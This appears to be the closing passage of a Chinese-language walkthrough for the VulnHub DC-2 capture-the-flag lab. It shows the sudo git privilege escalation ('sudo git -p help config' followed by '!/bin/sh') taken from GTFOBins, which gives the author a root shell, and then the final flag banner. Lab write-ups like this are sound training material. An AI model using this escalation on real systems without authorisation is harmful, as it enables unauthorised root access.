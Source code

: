 这里提到了 git,那么就用它提权

---

# flag5

在 https://gtfobins.github.io/gtfobins/git/ 找到 git 提权的语法
```
sudo git -p help config
!/bin/sh
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC2/13.png)

提权成功,感谢靶机作者 @DCUA7,查看最终 flag

```bash
cd
cat final-flag.txt
```
```
 __    __     _ _       _                    _
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
